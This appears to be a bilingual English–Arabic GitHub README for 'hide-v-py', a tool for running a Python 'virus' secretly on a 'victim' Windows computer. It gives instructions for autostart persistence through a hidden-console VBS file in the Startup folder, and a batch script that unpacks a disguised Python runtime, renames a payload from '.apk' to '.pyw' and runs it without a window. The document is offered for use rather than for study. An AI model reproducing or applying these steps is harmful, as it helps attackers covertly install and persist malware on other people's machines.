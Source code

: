 # hide-v-py
## run virus python secretly \ تشغيل فيروس بايثون سرا
- You can use the software in more than one way \ تستطيع أستخدام البرمجية بأكثر من طريقة
- Download python Windows embeddable package (64-bit) / Windows embeddable package (64-bit) حمل بايثون 
## the victim / الضحية
> Note: put file no-console.vbs in `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` because this autostart Folder.


> ملحوظة:ضع ملف no-console.vbs في `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` لأن هذا المجلد لتشغيل تلقائي

## Example / مثال
```sh
cd C:\Users\see\AppData\Roaming\Microsoft\Windows
:: Windows-embeddable-package-python  in upgrade
IF EXIST "upgrade" (
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
:: change file python to original name
ren "upgrade.apk" "upgrade.pyw"
:: go to python.exe
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
:: run file python by python.exe
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
) ELSE (
:: if Folder upgrade not unzip
ren "update" "update.zip"
:: unzip update.zip
powershell -Command "Expand-Archive update.zip -DestinationPath C:\Users\see\AppData\Roaming\Microsoft\Windows"
ren "update.zip" "update"
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
ren "upgrade.apk" "upgrade.pyw"
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
)
exit 0
